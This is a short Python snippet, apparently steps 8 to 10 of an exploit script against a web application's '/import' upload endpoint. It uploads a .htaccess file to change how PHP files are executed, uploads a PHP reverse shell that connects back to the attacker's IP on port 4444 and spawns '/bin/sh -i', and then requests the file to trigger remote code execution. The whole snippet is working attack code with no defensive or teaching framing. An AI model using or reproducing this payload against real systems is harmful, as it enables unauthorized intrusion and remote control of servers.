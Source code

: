 ```python
# step 8: exploit arbitrary file upload to gain RCE
# upload .htaccess to allow execution of PHP files with unusual extensions
session.post(target + '/import', files={'file': ('.htaccess', 'RewriteEngine on\nRewriteRule shell.php shell.php6')})

# step 9: upload reverse shell as PHP6 file
session.post(target + '/import', files={'file': ('shell.php6', f'<?php $s=fsockopen("{my_ip}", 4444); $p=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s), $pipes); ?>')})

# step 10: execute the reverse shell
session.get(target + '/imports/shell.php')
```

